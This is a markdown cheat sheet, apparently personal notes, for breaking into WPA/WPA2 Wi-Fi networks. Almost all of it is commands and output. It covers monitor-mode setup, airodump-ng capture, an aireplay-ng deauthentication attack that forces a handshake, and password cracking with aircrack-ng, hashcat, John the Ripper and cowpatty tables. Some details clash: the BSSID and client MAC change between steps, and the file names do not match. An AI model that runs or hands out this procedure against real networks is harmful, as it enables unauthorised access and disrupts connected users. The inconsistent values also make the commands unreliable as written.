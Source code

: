 ## WPA/WPA2

### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPA available (normally WPA CCNP PSK)
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
sudo airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
sudo aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
#  BSSID              ESSID                     Encryption
1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```

### Cracking

```text
locate rockyou.txt

aircrack-ng -a2 -b 10:27:F5:66:BE:27 -w rockyou.txt out.cap

(ETA 2 HOURS)
```
#### Or a faster way to crack

```text
22000 | WPA-PBKDF2-PMKID+EAPOL
22001 | WPA-PMK-PMKID+EAPOL
```

```text
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hc2200.txt rockyou.txt

(ETA 5 MINUTES)
```

#### or ....

```text
hccap2john out.cap > hc2200.txt
john --wordlist=rockyou.txt --format=wpapsk hc2200.txt

(ETA 5 MINUTES)
```

#### or ....

create a rainbow table and crack with that!
```text
genpmk -f <wordlist> -d precomputed-common -s home
cowpatty -d precomputed-common -s <ESSID> -r out.cap

(ETA 5 MINUTES - after its been pre-computed)
```

https://charlesreid1.com/wiki/John_the_Ripper/WPA
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2












